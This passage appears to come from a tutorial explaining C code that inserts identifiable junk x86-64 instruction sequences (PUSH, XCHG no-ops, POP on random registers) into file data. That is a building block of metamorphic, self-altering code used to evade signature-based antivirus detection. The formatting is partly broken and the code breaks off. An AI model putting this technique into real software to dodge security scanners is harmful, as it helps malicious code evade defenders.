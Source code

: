 ```c
```

Also notice the int32_t , uint8_t and file_data, to understand more we move to the next function which will searches for and replaces the junk sequences.

Assembly instruction
Starts by looking for a PUSH opcode followed by a POP opcode on the same register

```c
/*  Write assembly instruction */
void
insert_junk(uint8_t *file_data, uint64_t junk_start) {

JUNK_ASM;


uint8_t reg_1 = (local_rand()%4); // see below 
uint8_t reg_2 = (local_rand()%4); // see below 

while(reg_2 == reg_1) {

reg_2 = (local_rand()%4);

}
 
uint8_t push_r1 = 0x50 + reg_1;
uint8_t push_r2 = 0x50 + reg_2;
uint8_t pop_r1 = 0x58 + reg_1;
uint8_t pop_r2 = 0x58 + reg_2;


uint8_t nop[3] = {0x48,0x87,0xC0};

nop[2] += reg_1;

nop[2] += (reg_2 * 8);


file_data[junk_start] = push_r1;
file_data[junk_start + 1] = push_r2;


file_data[junk_start + 2] = nop[0];
file_data[junk_start + 3] = nop[1];
file_data[junk_start + 4] = nop[2];
file_data[junk_start + 5] = nop[0];
file_data[junk_start + 6] = nop[1];
file_data[junk_start + 7] = nop[2];

file_data[junk_start + 8] = pop_r2;
file_data[junk_start + 9] = pop_r1;
}
The junk assembly instructions use the following pattern so that they can be identified
r1 = random register from RAX, RBX, RCX or RDX
r2 = a different random register from RAX, RBX, RCX, RDX

We then pick one of registers at random, and write out the PUSH and POP operations for that register at either end of the sequence.

local_rand() 
{
int digit;

FILE *fp;
```